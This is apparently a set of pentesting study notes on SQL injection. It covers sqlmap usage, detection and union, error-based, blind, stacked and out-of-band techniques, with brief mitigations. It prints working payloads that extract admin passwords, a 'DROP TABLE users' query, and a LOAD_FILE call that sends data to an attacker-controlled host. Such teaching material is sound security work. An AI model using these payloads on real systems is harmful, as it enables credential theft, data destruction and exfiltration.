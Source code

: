 # SqlI

## WriteUps

[Tricks](https://www.notion.so/Tricks-24078b2152854f11896181383e961288?pvs=21)

[Portswigger](https://www.notion.so/Portswigger-1e21202e068540619f1f1b0c3802be0a?pvs=21)

**@Mysql**

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

[Information\_schema](https://www.notion.so/Information\_schema-79ab4c7abc2a4892beb49e4c58fc31a8?pvs=21)

## How use Sqlmap

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sqlmap -r req.txt --dbs --random-agent --risk 3 --level 5
```

## How SQL Injection Works

At its core, SQLi exploits vulnerabilities in the input validation framework of an application.

When user inputs are not properly sanitized, an attacker can inject malicious SQL queries that the application will execute without question.

This can result in unauthorized access to sensitive information, data manipulation, and even complete control over the database.

### 1. Detection of SQL Injection Vulnerabilities

#### **Reconnaissance** => backend Use + DBMS

Detecting SQL Injection vulnerabilities involves testing for unexpected or unhandled inputs.

Techniques such as submitting single quotes (<mark style="color:red;">`'`</mark>), double quotes (<mark style="color:red;">`"`</mark>), or other SQL control characters can reveal how an application processes input.

Observing error messages or application responses can provide clues about the underlying SQL query structure, indicating potential injection points.

### Entry Point Detection Examples:

* **Confirming with Logical Operations:** Using statements like <mark style="color:red;">**`1' OR '1'='1`**</mark> can help determine if an application is vulnerable by altering the query logic.
* **Timing Attacks:** Introducing deliberate delays (`SLEEP` functions) in queries can help identify blind SQL Injection vulnerabilities by observing response times.

### 2. Exploiting SQL Injection

Once a vulnerability is identified, exploiting it can take various forms depending on the database and the nature of the vulnerability:

> A. _**Union Based SQL Injection:**_

_**Identifying the Number of Columns:**_

Both <mark style="color:red;">**`ORDER BY`**</mark> and <mark style="color:red;">`GROUP BY`</mark> can be exploited to identify the number of columns in the query's result set. This is crucial for constructing a successful <mark style="color:red;">**`UNION SELECT`**</mark> attacks.

**Scenario:** You’ve identified a page that displays user details based on their ID from the URL parameter `?id=1`.

_**Vulnerable SQL Query:**_

```sql
SELECT name, age FROM users WHERE id = $_GET['id'];
```

_**Exploitation**_**:**

```sql
?id=1 UNION SELECT username, password FROM admin_users
```

In this example, the attacker appends a `UNION SELECT` query to retrieve usernames and passwords from an `admin_users` table, bypassing the intended query's limitations.

> B. Error-Based SQL Injection:

It involves generating database errors to extract information from the error messages.

**Scenario:** An application displays detailed error messages when SQL queries fail.

_**Vulnerable SQL Query:**_

```sql
SELECT title, content FROM articles WHERE id = $_GET['id'];
```

_**Exploitation:**_

```sql
?id=1 AND (SELECT COUNT(*) FROM admin_users) = CAST('' AS INTEGER)
```

This payload causes a type conversion error, potentially revealing information about the database structure or data through error messages.

> C. Blind SQL Injection:

No data is transferred from the web application to the attacker, so the attacker sends data to the database, true or false questions, and observes the response.

**Scenario:** The application does not display error messages or query results, but changes in response can be observed.

_**Boolean-Based Exploitation:**_

```sql
?id=1 AND (SELECT SUBSTRING(password, 1, 1) FROM admin_users WHERE username = 'admin') = 'a'
```

This method involves iteratively guessing the password character by character, and observing the application’s behavior (e.g., response time or content changes) to confirm the guess.

_**Time-Based Exploitation:**_

```sql
?id=1 AND IF((SELECT SUBSTRING(password, 1, 1) FROM admin_users WHERE username = 'admin') = 'a', sleep(5), 'false')
```

This payload uses a conditional time delay to confirm the password character, exploiting the database’s response time.

> D. Stacked Queries SQL Injection

**Key Detail:** The database and interface must support multiple queries executed in a single database call.

**Example:**

```
?id=1; DROP TABLE users --
```

Stacked queries allow an attacker to execute additional queries after the initial, legitimate query. This is highly dependent on the database and the programming language’s database driver or ORM the application uses.

> E. Out-of-Band (OOB) SQL Injection

**Key Detail:** The database server must be able to make DNS or HTTP requests to external servers.

**Example:**

```
?id=1; SELECT LOAD_FILE('\\\\\\\\attacker-controlled-server.com\\\\data')
```

OOB techniques rely on the database server’s ability to communicate with external systems, allowing data exfiltration via DNS queries or HTTP requests.

> F. Advanced SQL Injection Techniques

* **Authentication Bypass:** Attackers might inject SQL to bypass login algorithms, often targeting the query logic.**Mitigation:** Employ strong input validation and parameterized queries for authentication mechanisms.
* **Inferential SQL Injection:** Similar to Blind SQLi, this method involves making logical guesses about the data structure and content.**Mitigation:** Use WAFs and ensure applications do not reveal any hints in their responses.
* **Second Order SQL Injection:** Occurs when user input is stored and later executed as a SQL query.**Mitigation:** Always sanitize user inputs, even when they are not immediately used in database queries.
